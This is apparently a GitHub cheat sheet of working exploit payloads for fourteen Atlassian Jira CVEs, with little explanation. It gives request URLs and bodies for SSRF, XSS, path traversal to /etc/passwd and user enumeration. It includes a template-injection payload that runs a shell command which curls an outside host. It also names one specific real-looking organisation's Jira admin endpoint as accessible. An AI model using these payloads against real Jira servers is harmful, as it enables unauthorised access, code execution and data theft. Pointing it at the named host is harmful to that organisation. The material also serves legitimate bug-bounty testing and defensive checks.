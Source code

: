 # JIRA-Vulnerabilities

Index | Technique
--- | ---
**1** | CVE-2017-9506 (SSRF)
**2** | CVE-2018-5230 (XSS)
**3** | CVE-2018-20824 (XSS)
**4** | CVE-2019-3396 (Path Traversal)
**5** | CVE-2019-3402 (XSS)
**6** | CVE-2019-3403 (User Enumeration)
**7** | CVE-2019-8442 (Sensitive Information Disclosure)
**8** | CVE-2019-8449 (User Information Disclosure)
**9** | CVE-2019-8451 (SSRF)
**10** | CVE-2019-11581 (SSTI)
**11** | CVE-2020-14178 (Project Key Enumeration)
**12** | CVE-2020-14179 (Sensitive Information Disclosure)
**13** | CVE-2020-14181 (User Enumeration)
**14** | CVE-2020-36289 (Username Enumeration)
**15** | Tools
**16**| Reports

___
#### CVE-2017-9506 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=http://bing(.)com
```

##### CVE-2018-5230 (XSS)
```
http://<JIRA>/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert%28%27XSS%27%29%22%3E.vm
```
#### CVE-2018-20824 (XSS)
```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

#### CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```


#### CVE-2019-3402 (XSS)
```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

#### CVE-2019-3403 (User Enumeration)
```
Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
```

#### CVE-2019-8442 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

#### CVE-2019-8449 (User Information Disclosure)
```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```

#### CVE-2019-8451 (SSRF)
```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

#### CVE-2019-11581 (SSTI)

```
a. Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
b. Try SSTI payload in subject and/or body:
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://xyz.burp(.)net').waitFor()
```
#### CVE-2020-14178 (Project Key Enumeration)

```
a. Navigate to <JIRA_URL>/browse.<project_key>
b. Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.

```
#### CVE-2020-14179 (Sensitive Information Disclosure)
```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa
```

#### CVE-2020-14181 (User Enumeration)

```
Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username=<uname>
```
#### CVE-2020-36289 (Username Enumeration)
```
Navigate to <JIRA_URL>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
```
```
 For target.atlassian(.)net, check this endpoints: 
/servicedesk/customer/user/signup [Able to login? Vuln:)]
/jira/projects [Can see projects? Vuln:) Now click on sign in and use OAuth]
```

```
jira-unauth-popular-filters:
https://<JIRA>/secure/ManageFilters.jspa?filterView=popular
```

```
jira-unauthenticated-dashboards:
https://<JIRA>/rest/api/2/dashboard?maxResults=100
```

```
Resolution found
/rest/api/2/resolution
```

```

Admin Project Dashboard Accessible
https://mtihelpdesk.eng.monash.edu/rest/menu/latest/admin















#### Tools

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.
[Automation Script](https://github.com/MayankPandey01/Jira-Lens) 

#### Reports
* [https://hackerone.com/reports/632808](https://hackerone.com/reports/632808)
* [https://hackerone.com/reports/1003980](https://hackerone.com/reports/1003980)
* https://hackerone.com/reports/713900
* https://hackerone.com/reports/139970
* https://hackerone.com/reports/197726
#### Blog
[How i converted SSRF TO XSS in jira.](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
